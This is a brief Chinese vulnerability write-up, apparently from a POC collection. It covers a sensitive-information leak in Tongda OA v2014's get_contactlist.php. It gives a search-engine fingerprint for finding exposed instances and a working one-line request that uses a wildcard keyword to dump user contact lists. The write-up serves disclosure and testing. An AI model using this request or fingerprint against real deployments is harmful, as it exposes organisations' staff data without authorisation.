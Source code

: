 # 通达OA v2014 get_contactlist.php 敏感信息泄漏漏洞

## 漏洞描述

通达OA v2014 get_contactlist.php文件存在信息泄漏漏洞，攻击者通过漏洞可以获取敏感信息，进一步攻击

## 漏洞影响

```
通达OA v2014
```

## 网络测绘

```
app="TDXK-通达OA"
```

## 漏洞复现

版本信息

![image-20220520154718609](images/202205201547687.png)

验证POC

```
/mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
```

![image-20220520154741599](images/202205201547656.png)